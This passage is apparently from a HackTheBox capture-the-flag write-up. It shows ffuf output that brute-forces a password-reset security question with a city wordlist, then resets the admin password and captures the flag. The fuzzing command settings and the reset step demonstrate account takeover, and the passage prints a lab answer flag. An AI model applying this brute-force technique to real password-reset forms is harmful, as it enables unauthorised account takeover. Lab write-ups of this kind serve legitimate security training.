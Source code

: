 ```
 :: URL              : http://94.237.50.242:40498/security_question.php
 :: Wordlist         : FUZZ: /home/samsepiol/city_wordlist.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Cookie: PHPSESSID=vaqmcll67v0s0aif4rtq0jiggq
 :: Data             : security_response=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Incorrect response.
________________________________________________

Manchester              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 149ms]
```

Answer for first question is `Manchester`, we got `302` status code, which means we are now able to reset the password:

![](cybersecurity/images/Pasted%2520image%252020250214180234.png)

Let's go with the following credentials:

```ad-note
`admin`:`password`
```

![](cybersecurity/images/Pasted%2520image%252020250214180310.png)

And we can now log into the admin panel:

![](cybersecurity/images/Pasted%2520image%252020250214180332.png)

Flag is:

```
HTB{d4740b1801d9880ff70de227a54309f0}
```